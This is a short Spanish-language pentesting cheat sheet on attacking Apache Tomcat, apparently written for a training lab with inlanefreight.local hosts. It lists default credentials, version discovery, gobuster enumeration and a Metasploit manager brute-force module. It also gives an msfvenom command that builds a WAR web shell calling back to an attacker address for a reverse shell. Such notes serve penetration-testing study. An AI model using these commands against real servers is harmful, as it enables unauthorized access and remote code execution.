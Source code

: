 #### Info
- Soporta aplicaciones en JAVA.
- Soporta JSP
- Utilizado por frameworks como Spring
- En la carpeta conf <tomcat-users.xml se encuentran las credenciales de los usuarios ;)
- Usuales contraseñas: tomcat:tomcat admin:admin

#### Discovery
##### Versiones:
Si el server trabaja detrás de un reverse proxy podemos impulsar un error 404. Si la página está por defecto entonces nos dirá la versión

    http://app-dev.inlanefreight.local:8080/invalid

Otra forma es revisando el /docs:

    curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 


#### Enumeration

    gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt


### Attacking:

#### Brute-fotcing:
##### Metasploit

    auxiliary/scanner/http/tomcat_mgr_login


#### RCE

Podemos luego de entrar al manager conseguir rce subiendo una webshell .WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
    

